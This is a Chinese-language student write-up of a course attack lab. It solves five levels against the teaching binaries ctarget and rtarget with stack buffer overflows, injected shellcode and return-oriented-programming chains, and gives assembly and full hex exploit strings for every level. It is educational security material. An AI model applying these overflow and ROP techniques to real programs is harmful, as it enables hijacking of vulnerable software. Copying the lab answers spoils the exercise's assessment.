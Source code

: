 ```yaml
---
typora-root-url: img
---
```


本次lab的内容是利用程序的缓冲区溢出攻击程序。程序进行函数调用时会先把返回地址压入栈中，然后读入数据至缓冲区，若没有防止溢出的机制，过长的输入将覆盖返回地址，从而将程序导向其他地方（bomb！）

##### level1

从官方的手册可知，程序首先执行test()，在函数内调用getbuf()读入字符串然后结束返回test()，打印no exploit，我们要做的就是在打印no exploit之前将程序引向touch1引爆炸弹。

从getbuf入手，让它跳转至touch而非返回，来看getbuf的代码（先objdump ctarget）

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	move   %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

getbuf开辟0x28即40B的栈空间即缓冲区，用get读入字符串后返回，当然在开辟空间前还进行了test地址压栈。知道了这个栈帧情况就很容易攻击了，可以先读入40B字符，然后再读入touch1的地址，读入数据大于40B导致缓冲区溢出，最后读入的touch1地址将覆盖test的地址。

touch1的地址是0x4017c0，考虑小端存储答案为：

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00

![1](1.png)



##### level2

touch2需要读入一个参数，当参数为cookie时才能通过，根据提示知参数存在rdi里。源代码里没有输入cookie的语句，所以我们要自己编写相关代码，然后注入代码的地址，让程序执行指定的代码。

注入的代码应该实现两个功能：1、把cookie值移动到rdi中，2、跳转到touch2处

```assembly
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

使用gcc生成.o目标文件，然后反汇编生成汇编代码：

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

这样就得到了我们的代码的地址，但怎么让程序执行它们（跳到该地址）呢？可以参考上一题借用test的返回地址，用这些地址的地址覆盖test的返回地址。这些地址的地址是什么？它们保存在getbuf的栈帧里，地址就是栈顶指针rsp的值。

利用gdb在getbuf分配完栈空间后即0x4017ac处打断点，r执行之后info r rsp查看执行完getbuf后rsp的值，得到结果为0x5561dc78。所以我们在前40B保存我们代码的地址，再利用缓冲区溢出覆盖test的返回地址，使程序到我们制定的地址执行我们的代码。

48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00

![2](2.png)



##### level3

本关也需要输入字符串然后匹配，touch3要读入字符串的地址，cookie存在哪？手册提示hexmatch使用了栈随机化，很可能覆盖getbuf的栈空间，应该把cookie存在test的栈帧里。

利用上面info r rsp的方法找到test的rsp指针0x5561dca8，要把cookie存到此处，在编写自己的代码是就把该地址放入rdi寄存器，touch3的地址是0x4018fa，所以汇编写成：

```assembly
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

反汇编后得到代码地址，同样要用gebuf的栈顶地址0x5561dc78覆盖test的返回地址，以便执行这些代码，然后读入cookie（要转为ascii码）

48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61

![3](3.png)



##### level4

上面三关是利用缓存区溢出进行代码注入攻击（CIA），后面的两关程序采用了防护方式无法进行代码注入，它们需使用面向返回（ROP）的攻击方式。

ROP的思路是既然无法注入自己的代码，那就在原代码中找我们需要的片段，然后拼凑成需要的程序

重复level2，我们需要把cookie的值移到rdi中，但不能编写汇编。可以先读入cookie，然后执行pop rdi，但给的gadget中没找到pop rdi，需要做一下中转。先找到pop rax的代码，查表知其编码为58，在rtarget的汇编中搜索58，可以在0x4019b5处找到，58具体的地址是0x4019ab

```assembly
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
```

再找mov rax rdi的汇编，其编码为48 89 c7，在如下地方找到，具体地址为0x4019a2

```assembly
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
```

于是有了答案：先读入40B空字符，然后分别读入0x4019ab、cookie、0x4019a2、touch2的地址

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

![4](4.png)



##### level5

实验做到这就差不多了，该掌握的方法都过了一遍，这关是一个大综合，需要组织汇编然后在rtarget中找到相应的gadget，和上题一样注入，最后答案为：

00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61

![5](5.png)

